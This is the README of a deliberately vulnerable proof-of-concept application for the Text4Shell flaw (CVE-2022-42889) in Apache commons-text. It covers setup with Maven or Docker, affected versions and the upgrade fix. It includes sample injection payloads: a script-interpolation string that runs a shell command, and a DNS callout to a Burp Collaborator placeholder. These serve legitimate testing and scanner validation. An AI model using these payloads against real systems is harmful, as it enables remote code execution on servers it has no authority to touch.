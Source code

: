 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 


# Maven Installation
In order to run this you will need:
* JDK 17 or above
* Maven

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Maven install to create the JAR

```
mvn clean install
```

This will create the `./target` folder and within that folder should be the JAR file `text4shell-poc-0.0.1-SNAPSHOT.jar`

3. Start the webserver

```
java -jar ./target/text4shell-poc-0.0.1-SNAPSHOT.jar
```

This will start a web server on your `localhost` listening on port `8080` by default

4. Browse to the webserver

Access the webserver at `http://localhost:8080/` and you should see the following output
```
Text4Shell POC Test -@securekomodo
Send payloads to /reflected?poc=yourpayload
OR Send payloads to /blind with payload as your userAgent
```

5. Exploit manually or perform a scan using [text4shell-scan](https://github.com/securekomodo/text4shell-scan)

Sample Exploit Payloads
```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/itworked')}
```
```
${dns:<burp collaborator host>)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

# Docker
Alternatively you can use Docker to be able to run this PoC:

1. Clone the git repo
```
git clone https://github.com/securekomodo/text4shell-poc.git
cd text4shell-poc
```

2. Docker build

```
docker build --tag=text4shell-poc .
```

3. Docker run

```
docker run -p 80:8080 text4shell-poc
```

4. Test the vulnerable app

```
http://localhost/
```

5. Attack can be performed by passing a string “${prefix:name}” like shown below:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```
```
${dns:<burp collaborator host>)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)


# Are You Vulnerable?
In order for your code to be vulnerable you need to:
* Be running a version of Apache `commons-text` from version `1.5.0` up to (and not including) `1.10.0`
* Using Interpolation for your StringSubstituion (see [https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)) - note this is not super common


# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)
